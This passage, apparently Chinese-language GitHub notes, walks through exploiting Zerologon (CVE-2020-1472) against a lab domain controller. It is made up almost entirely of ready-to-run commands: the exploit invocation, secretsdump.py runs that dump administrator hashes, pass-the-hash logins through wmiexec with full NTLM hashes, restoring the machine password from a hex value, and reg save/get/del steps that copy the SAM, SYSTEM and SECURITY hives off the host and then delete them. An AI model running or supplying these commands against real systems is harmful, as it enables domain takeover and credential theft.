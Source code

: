 ```
python cve-2020-1472-exploit.py DC2008 10.211.55.200
```

[![img](https://camo.githubusercontent.com/ab6ebf37bf1f547e4dd044b0ffb16f8493190a988f350bc7119c5c335b7c95be/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303133372e706e67)](https://camo.githubusercontent.com/ab6ebf37bf1f547e4dd044b0ffb16f8493190a988f350bc7119c5c335b7c95be/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303133372e706e67)

```python
secretsdump.py -no-pass cgdomain.com/'DC2008$'@10.211.55.200 -history -just-dc-user administrator
secretsdump.py -no-pass cgdomain.com/administrator@10.211.55.200 -hashes aad3b435b51404eeaad3b435b51404ee:3add1560657a19b3166247eb3eb149ae
```

[![img](https://camo.githubusercontent.com/d94bd9f15fb2db6a2b99b7463de0674117fb227d731c7d0d8526ee66bb66961d/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303335392e706e67)](https://camo.githubusercontent.com/d94bd9f15fb2db6a2b99b7463de0674117fb227d731c7d0d8526ee66bb66961d/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303335392e706e67)

获取到旧的密码明文hex，还原

```
python restorepassword.py cgdomain.com/DC2008@DC2008 -target-ip 10.211.55.200 -hexpass 59958639cbdd4523de5d42b01adb0e256e0d39aef14c8eef31f4c078862109f253bbb7b3817ab123d013856c028fa4993f5f5b9a830a3a98d87483b29df3fb55082a1f464b19220a2c04f6605d2d321a04afbb551f8f19a13d399f9f5af2aa23c5b76b49001033516fefd90cb0348256e8282b22cbf9e70d82a8b8d2916d578246e288af3af727533d36ad8950fe1c513771377d98a947c4a8eae2b581a74b6687a2e533b7e89e8d03c2e6c2123d519489869a6e33d3a8884be33107060b62e2852502261f48c097ddb68750cc55b7688cc951441cf02989a307f55c008e978edbaf31766d17b53505016c7580cb480b
```

[![img](https://camo.githubusercontent.com/206012e6d64974e4fda0704c8f1334e777a44f37f7b517e7d8776fbb79921e3f/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303435372e706e67)](https://camo.githubusercontent.com/206012e6d64974e4fda0704c8f1334e777a44f37f7b517e7d8776fbb79921e3f/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303435372e706e67)

恢复方法2

 通过wmic, pass the hash 拿到域控制器中的本地管理员权限(域管)

```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8adfc85c3490040e942ae1e6c68f645e test.local/Administrator@10.211.55.38
```

然后分别执行,拷贝本机中SAM数据库到本地

```
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save
```
